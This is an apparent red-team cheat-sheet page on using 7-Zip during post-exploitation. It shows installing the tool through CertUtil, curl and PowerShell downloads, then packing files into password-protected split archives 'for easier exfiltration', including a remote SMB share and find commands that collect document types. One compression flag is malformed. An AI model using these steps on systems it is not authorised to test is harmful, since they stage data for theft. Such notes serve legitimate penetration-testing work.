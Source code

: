 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - archive-files
---
```

# 7zip

## 01 - Setup

Choose a standalone console version to use a portable program

![[01 - 7zip Program Selection.png]]

### 1.1 - Silent Install

```
C:\> CertUtil.exe -urlcache -split -f https://www.7-zip.org/a/7z2107-x64.exe 7z-installer.exe

C:\> curl.exe -o 7z-installer.exe https://www.7-zip.org/a/7z2107-x64.exe
```

```
PS C:\> .\7z-installer.exe /S
```

Silently install 7zip program

```
PS C:\> Invoke-WebRequest -UseBasicParse -Uri https://www.7-zip.org/a/7z2107-x64.exe -OutFile 7z-installer.exe

PS C:\> .\7z-installer.exe /S
```

### 1.2 - Portable Program

Download the portable executable of 7zip.

```
C:\> CertUtil.exe -urlcache -split -f https://github.com/ip7z/7zip/releases/download/24.08/7z2408-x64.exe 7z.exe

C:\> curl.exe -o 7z.exe https://github.com/ip7z/7zip/releases/download/24.08/7z2408-x64.exe 
```

```
PS C:\> Invoke-WebRequest -UseBasicParse -Uri https://github.com/ip7z/7zip/releases/download/24.08/7z2408-x64.exe -OutFile 7z.exe
```

## 02 - Usage

### 2.1 - Syntax for the 7zip

```
> 7z a <destination> <file_1>,<file_2>,...
```

### 2.2 - Locate 7zip executable program

#### 2.2.1 - Linux

```
$ which 7z

$ whereis 7z
```

```
$ 7z a -t7z -m0=lzma2 -mx=9 -mfb=64-md=32m -ms=on <destination> <file_1>,<file_2>,...

$ 7z a archive.7z -r src/*.c
```

#### 2.2.2 - Windows

```
C:\> where /r C:\ tar.exe

PS C:\> Get-ChildItem -Recurse -Path C:\ -Include "tar.exe" -ErrorAction SilentlyContinue | ForEach-Object {$_.FullName}
```

```
C:\> "c:\program files\7-Zip\7z.exe" a -t7z -m0=lzma2 -mx=9 -mfb=64-md=32m -ms=on <destination> <file_1>,<file_2>,...
```

Use a short path to execute a program

```
C:\> "C:\Progra~1\7-Zip\7z.exe" a -t7z -m0=lzma2 -mx=9 -mfb=64-md=32m -ms=on <destination> <file_1>,<file_2>,...
```

### 2.3 - Split into multiple zip files as volumes for easier exfiltration with `-v` flag

> [!NOTE]
> You'll see the volume of 7zip archive files like file.7z.001, file.7z.002, etc.

```
> 7z a -t7z -v<bytes>m -mx9 -r0 -p<password> archive.7z [<drive_letter>:]/path/to/folder
```

You can of course archive the files from the file sharing SMB machine.

```
C:\> 7z a -t7z -v650m -mx9 -r0 -p<password> exfiltrated-documents.7z \\<IP>\<share_name>\
```

### 2.4 - Match specific extensions then archive the files

#### 2.4.1 - Linux

- Recursively archive files with specific file extensions

```
$ find /path/to/directory -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.doc" -o -name "*.docx" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.png" -o -name "*.ppt" -o -name "*.pptx" -o -name "*.xls" -o -name "*.xlsx" \) -exec 7z a -t7z -v650m -mx9 -r0 -p<password> archive.7z {} + 2>&1
```

- Recursively archive files with specific file extensions. Ensure the filenames are unique to avoid duplicates.

```
$ find /path/to/directory -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.doc" -o -name "*.docx" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.png" -o -name "*.ppt" -o -name "*.pptx" -o -name "*.xls" -o -name "*.xlsx" \) -exec 7z a -t7z -v650m -mx9 -r0 -p<password> archive.7z {} \; 2>&1 | rev | cut -d. -f1 | rev | sort | uniq
```

---
## References

### 7Zip

- [7zip](https://www.7-zip.org/download.html)

- [7zip Source Repository](https://github.com/ip7z/7zip)

- [7zip Command Line](https://7ziphelp.com/7zip-command-line)

- [7zip FAQ (it provided a silent install flag)](https://7-zip.org/faq.html)